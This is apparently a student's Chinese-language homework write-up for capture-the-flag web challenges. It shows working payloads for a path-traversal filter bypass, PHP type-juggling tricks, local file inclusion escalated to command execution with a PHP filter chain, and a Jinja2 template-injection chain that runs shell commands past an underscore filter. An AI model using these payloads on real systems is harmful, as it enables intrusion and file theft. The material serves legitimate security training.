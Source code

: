 ```yaml
---
title: "【網路安全實務與社會實踐】作業二 Write-up"
published: 2025-03-26T00:00:00.000Z
description: ""
tags: []
category: "general"
draft: false
---
```

# 作業二 Write-up by owl_d
### pathwalker-waf2
發現這題的path traversal重點在這個區間
```mar=
<?php
      if (isset($_GET['page'])) {
        $safe_path = str_replace('../', '', $_GET['page']);
        echo file_get_contents("./page/".$safe_path.".php");
      }      
    ?>
```
程式只有把 ../ 換掉
所以可以使用 ..././ 的方式來 bypass
..././ 被換掉後會變成 ../ 就一樣可以達成回到上一層的目的

`https://chall.nckuctf.org:28142/?page=..././..././..././..././var/www/html/flag`
即取得flag

p.s. 這題沒辦法用 ..%2f 的方式來bypass，會被當成 ../ 過濾掉

<!--more-->

### swirl
Stage 1: 
```mar=
<?php
include('config.php');
echo '<h1>👻 Stage 1 / 4</h1>';

$A = $_GET['A'];
$B = $_GET['B'];

highlight_file(__FILE__);
echo '<hr>';

if (isset($A) && isset($B))
    if ($A != $B)
        if (strcmp($A, $B) == 0)
            if (md5($A) === md5($B))
                echo "<a href=$stage2>Go to stage2</a>";
            else die('ERROR: MD5(A) != MD5(B)');
        else die('ERROR: strcmp(A, B) != 0');
    else die('ERROR: A == B');
else die('ERROR: A, B should be given');
```
弱型態比較，可以使用 md5(array型態) = NULL 的性質來達成
payload: `?A[]=1&B[]=2`



Stage 2:
```mar=
<?php
include('config.php');
echo '<h1>👻 Stage 2 / 4</h1>';

$A = $_GET['A'];
$B = $_GET['B'];

highlight_file(__FILE__);
echo '<hr>';

if (isset($A) && isset($B))
    if ($A !== $B){
        $is_same = md5($A) == 0 and md5($B) === 0;
        if ($is_same)
            echo (md5($B) ? "QQ1" : md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2");
        else die('ERROR: $is_same is false');
    }
else die('ERROR: A, B should be given');
```
關鍵點應該在這：
`md5($B) ? "QQ1" : md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2"`
看起來有點複雜，但我們可以一部分一部分拆開來看
`md5($B) ? "QQ1" : (目標要到這邊)` 
可以看出來 b 必須得是 false，才能繼續往下
進到下一層後，
`md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2"`
所以 md5($A) 必須得是0
整理一下條件：
1. A 和 B 的值必須不同
2. md5(A) 和 md5(B) 都必須等於 0
3. md5(B) 必須為假值

payload: `?A[]=1&B[]=2`


有趣的事：
意外發現 payload: `?A=true&B=false` 也行得通
可是我自己做了實驗
![image](https://hackmd.io/_uploads/rJX2pUxTJg.png)
發現程式根本就應該跳到 QQ1 就算 QQ1 被調過了應該也要跳去 QQ2
到現在我還是不懂是什麼神奇的機制繞過的，我再研究看看


Stage 3:
.. 會變成 .
那 .... 就會變成 .. 了！
payload: `....\config.php`
(記得要打開網頁原始碼看！)
![image](https://hackmd.io/_uploads/Hkv_1tA31e.png)

Stage 4:
寫完這題發現 LCI 轉 RCE 真的是天才般的發現，太神了
先觀察題目source，會發現主要漏洞在：

1. 使用了 extract($_POST) 函數，直接將 POST 請求中的參數轉換為變數
2. 未經過濾的 include($👀) 語句，允許包含任意文件

所以先試了一下 POST 👀=/etc/passwd：
發現真的有回傳內容，代表 LFI 行得通
![image](https://hackmd.io/_uploads/B1P8D8gpkg.png)


可是 👀=/flag 或者  👀=../../../flag.php 等等直接取 flag 的方式全部失敗
所以勢必得要 RCE 才能印出 flag 了

這次攻擊主要採用 PHP filter chain 來達成
https://github.com/synacktiv/php_filter_chain_generator/blob/main/README.md
指令：`python3 php_filter_chain_generator.py --chain "<?php system('cat /flag*'); ?>"`
送到 POST 的 👀 後面變取得 flag

p.s. 最後我還用了 `python3 php_filter_chain_generator.py --chain "<?php system('ls /'); ?>"`
回頭再看一下爲什麼當初試了快 5 個小時的 ../../flag.php 不管用
最後也看到了 flag 檔案有加後綴，所以 path traversal 其實不管用
![image](https://hackmd.io/_uploads/S1r4DUe6yx.png)



### SSTI-waf1
一開始先送送看 `{{7*7}}` 發現真的回應 49
那肯定得是個 SSTI 了！

![image](https://hackmd.io/_uploads/B1xZc0yT1x.png)
從source發現題目會擋掉 _ 底線
所以把底線用 `\5f` 來繞過
並且用 `attr` 代替 點 來做串接

一開始先用ls / 看根目錄有沒有值得注意的檔案
`{{ cycler|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')() }}`
發現網頁回應：
![image](https://hackmd.io/_uploads/Sk3ycRJ6kx.png)


有 flag 檔案，cat 一下便可以得到解答
payload: 
`{{ cycler|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('cat /flag')|attr('read')() }}`


